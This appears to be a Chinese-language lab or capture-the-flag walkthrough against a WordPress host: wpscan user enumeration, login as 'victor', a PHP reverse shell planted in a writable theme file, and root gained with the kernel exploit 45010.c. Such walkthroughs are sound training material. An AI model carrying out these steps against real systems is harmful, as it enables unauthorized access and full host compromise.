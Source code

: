 wpscan --emnumerate u 看能枚举出用户名吗

```
wpscan --url http://61.139.2.161/wordpress --enumerate u
```


![image.png](https://s2.loli.net/2025/04/29/v7BLozN4ARhUpZT.png)

有一个victor 加上刚才的密码试试看能成功吗

成功登入

## 反弹shell
想办法反弹shell

老套路 在主题中修改 或者上传php文件然后访问

上传php没辙  下载插件需要输东西进去

![image.png](https://s2.loli.net/2025/04/29/uYCeEjOWzciogJR.png)

修改文件 也大都不可写

![image.png](https://s2.loli.net/2025/04/29/3DIMvRecdxysKJB.png)

偶然机会找到一个php可以写入 立马把php反弹shell代码写入 然后用wp的路径访问

```
http://61.139.2.161/wordpress/wp-content/themes/twentynineteen/secret.php
```

成功反弹shell

## 提权
![image.png](https://s2.loli.net/2025/04/29/AcdW8mpDvJ6RLZH.png)


查看内核版本

```
uname -r 

cat /etc/*-release
```


使用这个漏洞

```
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation   linux/local/45010.c

gcc 45010.c -o 45010

./45010
```

成功提权
